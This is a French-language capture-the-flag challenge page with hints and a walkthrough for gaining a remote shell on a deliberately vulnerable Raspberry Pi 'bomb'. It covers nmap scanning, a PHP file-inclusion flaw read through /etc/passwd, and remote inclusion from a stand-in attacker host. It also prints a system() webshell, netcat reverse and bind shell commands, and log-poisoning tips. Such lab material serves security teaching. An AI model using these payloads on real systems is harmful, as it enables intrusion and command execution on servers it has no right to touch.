




Votre mission
obtenir un accès à distance sur le Raspberry Pi ! Connectez vous au réseau sans fil, examinez les services ouverts, trouvez une vulnérabilité exploitable et exploitez le pour ouvrir un shell à distance.
Depuis le passage du maléfique Dr Horrible, un drôle de point d'accès Wifi est apparu ... Il semblerait que la carte électronique responsable de ce point d'accès soit un composant important de la bombe.
obtenir un accès à distance sur le Raspberry Pi ! Connectez vous au réseau sans fil, examinez les services ouverts, trouvez une vulnérabilité exploitable et exploitez le pour ouvrir un shell à distance.
SSID: DrHorriblesBombChallenge
Clé: drhorrible
Il arrive parfois que le point d'accès refuse, sans raison apparente, les connexions. Si vous êtes dans cette situation, perséverez. Cette situation est générée par un dongle WiFi de mauvaise facture, et au bout de deux ou trois essais vous devriez être connectés.
Cette page de documentation est séparée en trois parties, selon le niveau du joueur en sécurité informatique. Vous pouvez sélectionner l'un des trois boutons ci dessous, pour accéder à la présentation des indices spécifiques à votre niveau.
Si vous n'avez jamais pratiqué d'exploitation Web et/ou que vous ne connaissez pas les vulnérabilités les plus courantes liées à cet environnement, sélectionnez le niveau débutant.
Si vous êtes bloqués, n'hésitez pas à nous contacter ... Vous pouvez également visionner la solution directement en fin de page
Evidemment, si vous êtes en train de lire cette section, vous n'avez pas trop envie qu'on vous spoile le challenge ;) Pas de soucis, on vous comprends ! Quelques règles à suivre cependant, pour être sûr que vous prenez le bon axe pour la suite :

Pour ce niveau, nous partons du principe que vous avez déjà quelques connaissances sur les exploitations web et la recherche de vulnérabilités. Voici donc quelques indices, qui pourraient bien se révéler utile pour la suite.
Il se pourrait que vous ayiez à réaliser un scan de port, pour déterminer les services disponibles sur l'hôte cible. Une première question à se poser pourrait être ... mais quel est l'hôte cible ?
Pour cela, vous pouvez utiliser l'excellent scanner de ports nmap. Voici un rappel de quelques options de nmap :
nmap <hôtes à scanner> <options facultatives>
- Les hôtes à scanner : vous pouvez spécifier une adresse IP de la forme 10.0.0.1, un rang d'adresses de la forme 10.0.0-255.1-254, un sous réseau de la forme 10.0.0.0/24
- Les options facultatives :
Pour découvrir la vulnérabilité, ne cherchez pas trop loin ! Il s'agit d'une vulnérabilité bien connue et bien documentée, et il est probable que vous la connaissiez déjà. Le fichier concerné est typique de ce type de failles PHP.
La vulnérabilité est située côté serveur (c'est plus pratique pour obtenir un shell sur le serveur !), mais elle n'est pas forcément accessible directement. Un petit travail d'investigation risque d'être nécessaire, n'hésitez pas à décortiquer les codes sources que vous avez à disposition.
Une précision, cependant : ce challenge n'exige absolument aucun bruteforce ou recherche par dictionnaire. Il n'est pas non plus nécessaire de sniffer le réseau Wifi, ou quoi que ce soit de cette nature.
Une fois la vulnérabilité découverte, il est possible de l'exploiter d'au moins trois manières, plus ou moins élégantes, mais la démarche sera toujours d'obtenir un Web shell. Si vos connaissances en PHP commencent à dater un peu, voici une proposition de script, mais vous pouvez évidemment développer le votre si vous préférez :
<?php
if ($_GET && isset($_GET['cmd'])) {
system($_GET['cmd']);
}
else
{
echo "Aucune commande entrée !";
}
?>
Voici quelques indices potentiellement utiles :
python -m SimpleHTTPServer
Par défaut, ce mini serveur sert les fichiers statiques dans le dossier courant, et est en écoute sur le port 8000.
nc 192.168.666.42 80 < scriptmalveillant.txtIl est également possible de réaliser cette attaque en s'intéressant à un type de fichiers particuliers : les logs. N'oublions pas que chaque requête du client vers le serveur est enregistrée dans ces fichiers. Il s'agit de /var/log/apache2/access.log.
Il est possible de se servir de cette information pour imaginer un scénario d'exploitation menant à l'obtention d'un WebShell sur la machine cible.
Nous avons un peu "joué" avec les permissions des fichiers de logs d'apache pour permettre cette exploitation. En temps normal, l'utilisateur apache a un droit en écriture sur ces logs, mais pas en lecture, ce qui rend impossible l'attaque que nous vous proposons.
Grâce aux indices précédents, vous avez dû réussir à trouver et exploiter la vulnérabilité : vous disposez donc, à ce stade, d'un webshell fonctionnel.
Cependant, ce type d'interface n'est pas vraiment "simple" à utiliser, ni très confortable. Or, dans la suite, nous risquons d'avoir à faire un usage intensif de cet interpréteur de commande. Nous vous suggérons donc fortement (après, vous faites comme vous voulez, hein !) de mettre en place un bind shell ou un reverse shell grâce à netcat.
Netcat est un couteaux suisse à destination du réseau et des protocoles TCP/UDP. Il permet notamment de connecter un service (ici, un interpréteur de commande type /bin/sh) à un port ouvert, pour que d'autres puissent s'y connecter. Nous vous proposons donc deux stratégies pour obtenir ce shell : la mise en place d'un Reverse Shell ou celle d'un Bind Shell
C'est la cible qui va se connecter sur l'attaquant en écoute, et rediriger son shell /bin/bash vers l'attaquant
nc <IP attaquant> <port> -e /bin/bash
nc -lvp <port>
La cible se met en écoute sur un port donné, et redirige entrées et sorties de /bin/bash vers le port ouvert, l'attaquant se connecte directement sur le port concerné.
nc -lvp <port> -e /bin/bash
nc <IP cible> <port>
Lorsque l'on est dans la démarche d'exploiter une vulnérabilité sur un serveur distant pour en prendre le contrôle, la première étape est généralement d'effectuer une phase de collecte d'informations. Cela permet notamment de récupérer un certain nombre d'informations qui pourront se révéler importantes par la suite : ainsi, on pourra récupérer des informations telles que le système d'exploitation sur le système cible, ainsi que la liste des services accessibles à distance.
Dans le cas présent, nous sommes connectés sur le même réseau local que la machine cible. Sur un tel réseau local, chaque machine se voit assignée une adresse IP : il s'agit d'une suite de 4 nombres entiers, séparés par des points, qui permettent d'identifier de façon unique un réseau et chaque ordinateur connecté à réseau. Dans notre cas, l'adresse IP identifiant le réseau est ainsi formée :
192.168.4.x
Ici, le dernier nombre composant l'adresse IP permettra d'identifier les différents ordinateurs connectés sur le réseau local de la bombe. L'adresse IP de la bombe, par exemple, est la suivante :
192.168.4.1
Une information qui peut se révéler intéressante par la suite est l'adresse IP de votre ordinateur sur ce réseau local : en effet, lorsque vous vous êtes connectés au réseau, votre ordinateur a automatiquement contacté un serveur DHCP, chargé de lui attribuer dynamiquement une adresse IP libre. Pour obtenir cette information sur une distribution GNU/Linux, vous pouvez taper la commande : ifconfig. Voici un exemple de ce que vous pourriez obtenir :
eno1: flags=4099<UP,BROADCAST,MULTICAST> mtu 1500
ether 08:2e:5f:71:6d:30 txqueuelen 1000 (Ethernet)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 0 bytes 0 (0.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Boucle locale)
RX packets 38367 bytes 21274667 (20.2 MiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 38367 bytes 21274667 (20.2 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
wlp10s0b1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 192.168.4.2 netmask 255.255.255.0 broadcast 192.168.4.255
inet6 fe80::c95:5f04:9ce9:b689 prefixlen 64 scopeid 0x20<link>
ether c0:18:85:58:98:99 txqueuelen 1000 (Ethernet)
RX packets 1433330 bytes 1559807139 (1.4 GiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 896447 bytes 107997959 (102.9 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
Dans notre cas, on est donc dans la configuration suivante :

Maintenant que nous disposons de la configuration du réseau local, et notamment de l'adresse de la cible, nous pouvons nous intéresser plus spécifiquement à cet hôte en particulier. Une démarche intéressante est d'effectuer un scan de ports : en effet, sur un ordinateur, de nombreux services peuvent être rendus disponibles par le réseau. Pour contacter un service en particulier, il faut connaître le port sur lequel il est accessible : un ordinateur comporte ainsi un certain nombre de ports ouverts, correspondant aux services mis à disposition par la machine, les autres ports étant fermés (et donc inaccessibles). Pour trouver des services exploitables, il est intéressant d'utiliser un scanner de ports : il va tenter de contacter chacun des ports de l'hôte visé afin de déterminer ceux qui sont ouverts et les services auxquels ils correspondent. Cela nous servira de point de départ pour chercher des vulnérabilités exploitables dans les différents services.
Il existent de nombreuses manières de réaliser un tel scan, mais l'une des plus connue est appelée le SYN Scan : il consiste à envoyer un paquet TCP SYN d'établissement de la connexion. Si l'hôte distant répond par un paquet ACK (acquittement), alors le port est ouvert, et un service disponible. Si l'hôte répond par un paquet RST (reset), cela signifie que le port est fermé.
Pour réaliser un tel scan, il est possible d'utiliser l'outil très complet nmap. Il nous permet également de détecter quel service est disponible lorsqu'un port est ouvert, et quel système d'exploitation est exécutée par la cible. Ce sont des informations très pertinentes pour un attaquant !
Pour réaliser ce scan, vous pouvez utiliser nmap avec les options -A (pour déterminer le système d'exploitation et les services disponibles) et -sS (pour spécifier un scan de type SYN). La syntaxe générale est donc la suivante :
sudo nmap -A -sS <adresse IP Cible>
Vous devriez normalement détecter un serveur Web bien connu sur le port 80. C'est particulièrement intéressant pour un attaquant, car les serveurs Web sont très courants, et permettent d'héberger sites et applications web potentiellement vulnérables. La surface d'attaque est donc considérablement augmentée dans une configuration de ce type. Dr Horrible aurait il pu laisser passer une vulnérabilité web ?
Pour le découvrir, nous pouvons explorer le site "à la main", en utilisant un navigateur web. Il nous suffit de nous connecter à l'adresse http://192.168.4.1 pour accéder à une mystérieuse page web ...
Un site web est constitué de plusieurs technologies, fréquemment amenées à travailler ensemble. Certaines de ces technologies s'exécutent du côté du client (c'est à dire sont exécutées directement par votre navigateur lorsque vous vous connectez sur le site web) tandis que d'autres sont exécutées du côté du serveur (que vous contactez lorsque vous demandez à accéder à une page web).

Les technologies clients principalement utilisées sont HTML, CSS et Javascript. Leurs objectifs sont différents : le HTML est un langage de description de contenu, fortement basé sur la syntaxe XML, il sert à structurer le contenu (texte, images, vidéos) de la page web. Cette base est indispensable, mais elle peut être enrichie par du CSS (Cascading Style Sheet), qui est un langage de description de l'apparence de la page (il sert à mettre en place et décrire le design du site web) et par du Javascript, qui est un langage permettant d'exécuter du code pour animer la page et la rendre interactive.
Du côté des technologies serveur, il est théoriquement possible d'utiliser n'importe quel langage, mais certaines technologies ont été conçues spécifiquement pour cet usage. C'est notamment le cas du langage PHP : il s'agit d'un langage de programmation côté serveur, il est donc fréquemment utilisé pour générer du code HTML, Javascript et CSS pour qu'il soit utilisé par le client. Utiliser un langage pour générer du code côté serveur permet de créer dynamiquement des pages, "sur mesure" (cela peut par exemple permettre d'utiliser une base de données, ou d'interagir avec d'autres composants logiciels côté serveur).
Chacune de ces technologies comporte son lot de vulnérabilités exploitables. Cependant, notre objectif pour cette étape est d'obtenir un shell à distance sur le serveur, il paraît donc préférable de chercher des vulnérabilités côté serveur : nous chercherons donc des pages dont l'extension est ".php", indiquant la présence d'un script s'exécutant en PHP côté serveur.
Ici, il n'y a qu'une seule page accessible directement, et aucun lien ne nous permet de conclure à la présence d'une autre page à investiguer. Nous sommes tombé directement sur cette page en tapant l'adresse http://192.168.4.1/, il s'agit donc soit d'une page "index.html", qui contient un code statique (la page était stockée telle quelle côté serveur), soit d'une page "index.php" qui a généré un contenu HTML dynamiquement (auquel cas nous pourrions inspecter cette page à la recherche d'une vulnérabilité).
Si on essaie d'accéder à la page http://192.168.4.1/index.php, on constate qu'elle n'existe pas : la page sur laquelle nous nous trouvons n'est donc pas générée dynamiquement, il faut chercher ailleurs ...
Une démarche intéressante pour poursuivre notre investigation serait d'afficher le code source de la page, à la recherche d'une page PHP. En effet, le compteur affiché change régulièrement sans interaction de la part de l'utilisateur : il semble donc synchronisé avec le compteur de la bombe. Ainsi, un code Javascript peut, par l'intermédiaire d'une technologie nommée "AJAX", faire appel à une page PHP côté serveur pour récupérer une information actualisée ... Pour commencer votre investigation, tapez Ctrl + U pour afficher le code source. N'hésitez pas à parcourir les différents fichiers utilisés par le code HTML de la page, à la recherche d'une page PHP.
Vous devriez avoir trouver le fichier PHP concerné par la requête AJAX. Il s'appelle read.php et une information intéressante peut être notée : il est suivi d'un point d'interrogation suivi de la chaîne de caractères file=compteur
Il s'agit d'une information supplémentaire qui est transmise au script PHP. Le script est capable de récupérer cette information, transmise par l'utilisateur directement dans la barre d'adresse (il s'agit alors d'une argument transmis par le verbe GET) pour s'en servir pour effectuer la tâche qui lui est assignée.
Si vous êtes un peu familiers avec le langage PHP, vous avez dû reconnaître une faille typique de cette technologie : une vulnérabilité par inclusion de fichiers.
En effet, il semble que ce script, d'après son nom et l'argument attendu ("file" veut dire fichier en anglais), utilise une des fonctions d'inclusion de PHP (elles sont au nombre de 4 : include, include_once, require et require_once, mais leur exploitation est similaire) pour inclure le fichier proposé par l'utilisateur (nommé "compteur" dans le cas de la requête AJAX). Nous pouvons confirmer qu'il s'agit bien d'un fichier existant sur le serveur en essayant d'y accéder directement pour vérifier son existence :
http://192.168.4.1/compteur
Cette vulnérabilité est particulièrement intéressante pour l'attaquant, car elle va permettre d'inclure n'importe quel fichier dans le script PHP : cela nous permet donc potentiellement de lire un fichier sensible stocké sur le disque dur du serveur. Et si on essayait ?
Historiquement, le fichier /etc/passwd contenait les noms d'utilisateurs et les mots de passes des différents utilisateurs de l'ordinateur sur lesquels il était stocké. Ce n'est plus le cas aujourd'hui, mais il reste possible de découvrir les différents utilisateurs de la machine. Essayons de le lire grâce à notre script, en accédant à l'adresse :
http://192.168.4.1/read.php?file=/etc/passwd
Vous devriez obtenir l'affichage suivant :

Victoire, notre fichier a bien été inclus ! Mais comment utiliser cette vulnérabilité pour obtenir notre shell à distance ?
En effet, une inclusion de fichier contrôlable par l'utilisateur est très intéressante, car si on réussit à inclure un fichier contenant du code PHP (il est signalé entre les balises <?php et ?>), le code PHP inclus sera exécuté. Dans notre cas, cela nous permettra par exemple d'utiliser un utilitaire nommé netcat pour obtenir un accès à distance.
Mais comment exploiter cette vulnérabilité ? En réalité, cela dépend de la configuration du serveur web. Il est possible, bien que peu fréquent, que le serveur web soit mal configuré et autorise l'inclusion de fichiers à distance, situés sur un autre serveur web : il s'agit alors d'une Remote File Inclusion (inclusion de fichiers à distance). Dans ce cas, l'exploitation est très simple : il suffit de mettre en ligne le fichier contenant le code PHP malveillant à exécuter, puis d'inclure ce fichier. Par exemple, si on a uploadé notre fichier sur le serveur web accessible à l'adresse http://leserveurdumechant.com/mechantscript.txt, il nous suffira pour exploiter la vulnérabilité de nous rendre à l'adresse :
http://192.168.4.1/read.php?file=http://leserveurdumechant.com/mechantscript.txt
Dans la plupart des cas, il n'est pas possible d'inclure un fichier distant, car la configuration du serveur apache (et notamment le fichier de configuration de PHP php.ini ) ne l'autorise pas. Dans ce cas, l'attaquant est contraint d'inclure un fichier déjà présent sur le disque dur local du serveur cible. C'est ce qu'on appelle une Local File Inclusion (Inclusion de Fichier Local). Dans ce cas, il est nécessaire d'inclure soit un fichier que l'attaquant a réussi à uploader sur le serveur (via une autre faille touchant à une fonctionnalité d'upload, par exemple), soit d'inclure les logs du serveur Apache (après avoir fait en sorte qu'ils contiennent du code PHP, par exemple en réalisant une requête erronée contenant le code malveillant), soit d'utiliser une fonctionnalité un peu obscure de PHP nommée PHP Wrappers (il s'agit de fonctions PHP qui se comportent comme des fichiers).
Dans le cas d'une première exploitation, nous vous conseillons de tenter d'exploiter la Remote File Inclusion. Elle est moins complexe dans sa mise en place, et vous permettra de mieux comprendre les mécanismes à l'oeuvre.
Pour réaliser l'attaque, vous aurez besoin d'un code d'exploitation en PHP. L'objectif, dans notre cas, est de pouvoir exécuter une commande sur l'ordinateur cible : nous vous proposons donc un code PHP simplissime, qui vous permettra, une fois inclus, de pouvoir exécuter n'importe commande dans le serveur comme si vous étiez dans un interpréteur de commande.
<?php
if ($_GET && isset($_GET['cmd'])) {
system($_GET['cmd']);
}
else
{
echo "Aucune commande entrée !";
}
?>
Ce code, très simple, va vous permettre d'entrer n'importe quelle commande bash et de l'exécuter sur la cible. Le test conditionnel (if) va vérifier que le tableau $_GET (c'est le tableau contenant les arguments transmis directement dans l'URL, c'est le cas de l'argument file de read.php par exemple) existe, et que l'argument cmd a bien été transmis par l'utilisateur.
Si c'est le cas, le script va transmettre l'argument de l'utilisateur à la fonction system. Le rôle de cette fonction est d'exécuter cette commande dans l'interpréteur proposé par le système d'exploitation (ici, ce sera donc du Bash étant donné qu'on est dans un environnement GNU/Linux) et d'afficher le retour de la commande sur la page.
Si ce n'est pas le cas, le script va utiliser la fonction d'affichage echo pour afficher le message : "Aucune commande entrée !".
Finalement, il va être nécessaire de mettre en place sur votre ordinateur un serveur web très simple, pour que vous puissiez inclure le fichier depuis la cible. Pour cela, vous pouvez utiliser la commande bash suivante :
python -m SimpleHTTPServer
Cette commande, très pratique, utilise une fonctionnalité de l'interpréteur python qui va créer un petit serveur web statique dans le dossier où vous l'appelez, rendant ainsi accessible le fichier texte dans lequel vous aurez stocké votre webshell. Dès lors, vous pourrez exploiter la faille pour exécuter votre code PHP malveillant !
Par défaut, la commande python va ouvrir un serveur web sur le port 8000, faites donc attention à bien accéder à ce port lors de l'inclusion ! Pour rappel, pour se connecter sur un serveur web sur la machine d'IP 10.0.0.1 sur le port 6666, vous devez taper dans la barre d'adresse du navigateur :http://10.0.0.1:6666/
A ce stade, vous disposez d'un interpréteur de commande sommaire grâce au webshell PHP. Cependant, cette solution n'est pas très pratique ... Il serait plus agréable de disposer d'un interpréteur interactif à distance. Pour réaliser cela, il est possible d'utiliser l'outil netcat.

Netcat est un utilitaire "à tout faire" dans le domaine du réseau. Il permet de réaliser de nombreuses opérations en lien avec le réseau. Dans notre cas, il va nous permettre de rediriger vers un port quelconque un interpréteur de commande, tel que /bin/sh ou /bin/bash. Il sera alors possible de se connecter sur ce port avec une autre instance de netcat pour taper des commandes en direct sur la bombe.
Pour mettre en place un bind shell, il faut :
- Sur la machine cible, mettre netcat en écoute sur le port x et rediriger l'interpréteur /bin/bash dessus :
nc -lvp <x> -e /bin/bash- Sur la machine attaquante, connecter netcat sur le port x de la machine cible :
nc <IP cible> <x>
A l'issu de ce chapitre, vous devriez disposer d'un interpréteur de commande interactif satisfaisant sur la bombe. Félicitations ! Une dernière astuce : pour rendre l'interpréteur plus intuitif, vous pouvez entrer la commande python suivante une fois votre bind shell obtenu :
python -c 'import pty; pty.spawn("/bin/bash")'